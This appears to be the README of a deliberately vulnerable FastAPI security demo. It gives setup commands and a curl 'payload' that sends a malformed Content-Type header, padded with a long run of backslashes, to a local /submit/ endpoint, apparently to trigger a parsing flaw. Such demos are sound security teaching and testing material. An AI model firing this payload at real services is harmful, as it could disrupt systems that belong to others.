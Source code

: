 
# Vulnerable FastAPI Security demo application

## Setup

Clone the project and proceed to installing all the dependencies:

```bash
pip install -r requirements.txt
```

Then start the application:

```bash
uvicorn main:app --reload
```

## Execute the payload

```bash
curl -v -X 'POST' -H $'Content-Type: application/x-www-form-urlencoded; !=\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\' --data-binary 'input=1' 'http://localhost:8000/submit/'
```

